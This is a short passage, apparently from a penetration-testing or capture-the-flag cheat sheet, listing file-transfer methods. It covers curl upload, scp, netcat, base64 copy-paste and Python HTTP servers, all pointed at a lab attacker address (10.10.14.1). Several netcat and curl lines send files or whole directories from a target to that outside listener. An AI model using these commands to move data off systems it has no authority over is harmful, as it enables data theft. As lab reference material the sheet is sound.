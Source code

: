 ```bash

# Upload file via PUT
curl -T file.txt http://10.10.14.1:8000/upload
```

### SCP (Secure Copy)
```bash
# Copy from remote to local
scp user@10.10.14.1:/path/to/file.txt /local/path/

# Copy from local to remote
scp /local/file.txt user@10.10.14.1:/remote/path/

# Copy entire directory
scp -r user@10.10.14.1:/path/to/directory /local/path/

# Using specific port
scp -P 2222 user@10.10.14.1:/path/to/file.txt /local/path/
```

### Netcat
```bash
# Receiver (listening machine)
nc -lvnp 4444 > received_file.txt

# Sender
nc 10.10.14.1 4444 < file.txt

# Send entire directory (with tar)
# Receiver
nc -lvnp 4444 | tar xvf -

# Sender
tar cvf - /path/to/directory | nc 10.10.14.1 4444
```

### Base64 Encoding
```bash
# Encode file
base64 file.txt > file.b64

# Decode file
base64 -d file.b64 > file.txt

# One-liner transfer
cat file.txt | base64
# Copy output and on target:
echo "<base64_string>" | base64 -d > file.txt
```

### Python HTTP Server
```bash
# Python 3
python3 -m http.server 8000

# Python 2
python -m SimpleHTTPServer 8000

# Specify bind address
python3 -m http.server 8000 --bind 0.0.0.0
```
